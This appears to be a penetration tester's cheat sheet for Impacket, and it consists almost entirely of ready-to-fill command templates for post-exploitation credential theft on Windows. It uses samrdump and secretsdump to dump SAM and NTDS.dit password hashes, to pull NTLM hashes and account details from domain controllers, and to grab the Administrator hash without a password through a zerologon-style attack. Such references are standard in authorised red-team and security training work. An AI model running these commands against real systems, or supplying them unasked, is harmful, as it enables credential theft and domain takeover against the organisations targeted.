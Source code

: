 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## secretsdump
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain>/<user>:<password>'@<ip>
```

## secretsdump local dump - extract hash from sam database
#platform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
#platform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - remote extract + users infos
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```


